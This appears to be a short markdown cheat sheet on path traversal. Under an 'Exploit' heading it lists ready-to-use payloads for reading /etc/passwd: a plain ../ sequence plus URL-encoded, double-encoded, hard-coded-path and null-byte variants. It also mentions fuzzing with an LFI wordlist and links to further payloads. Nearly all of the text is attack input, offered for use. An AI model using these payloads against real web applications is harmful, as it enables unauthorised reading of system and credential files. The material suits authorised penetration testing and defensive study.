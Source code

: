 ```yaml
---
title: Path Traversal
description: Vulnerability allowing attacker to access files and directories of a system
---
```

## Exploit
### Basic
```bash
../../../etc/passwd
```

### Encoded
```bash
/%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### Double encoded
```bash
%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Hard-coded path
```bash
/var/www/images/../../../etc/passwd
```

### Null byte
Append `%00`,  character following null byte will be ignored
```bash
../../../../../passwd%00
```

### Fuzzing
Fuzz using `LFI-Jhaddix.txt` wordlist

## Links
-  [LFI/RFI payloads ](https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/)